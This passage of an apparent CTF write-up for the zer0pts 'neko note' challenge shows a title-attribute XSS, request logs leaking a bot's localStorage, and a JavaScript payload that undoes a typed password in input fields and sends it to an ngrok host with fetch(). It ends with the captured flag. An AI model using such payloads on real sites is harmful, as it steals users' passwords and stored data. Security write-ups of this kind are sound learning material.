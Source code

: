 > Note: We need to escape the first attribute in the title here: `<a href=/note/%s title=%s>%s</a>` so adding a single letter with space would do the trick

Now create a note with that title, link it with another note, and then report it to the admin.

We would see some requests coming in:

```
microsoft.com - - [08/Nov/2024 17:54:22] "GET /?d=neko-note-history&localStorage[key]=[{%22id%22:%22161d00ba-6784-4898-8ece-bdc9951120fa%22,%22title%22:%22Flag%22}] HTTP/1.1" 200 -
```

Now we got the Flag's note id, now we need the password for it, we know that the bot is magically deleting it using the backspace we need to find a way to UNDO that!

Since that the payload gets run whenever we click on Show the Note, we can safely assume that the password is being typed already. In that case we can just get the input field and send the "undo" command. So the next payload that we are going to do is this one:

```js
document.querySelectorAll('input').forEach(input => {
    document.execCommand('undo');
    fetch('http://2.tcp.eu.ngrok.io:17610/?d=' + input.value);
});
```

And redo the steps that we already did for the first payload. After the report to the admin we would get password for the note.

```
microsoft.com - - [08/Nov/2024 17:55:33] "GET /?d=ae4eadec-3bc0-4884-8ffb-f997a41d35b4 HTTP/1.1" 200 
```

And we can input it and get the flag.

```
zer0pts{neko_no_te_mo_karitai_m8jYx9WiTDY}
```

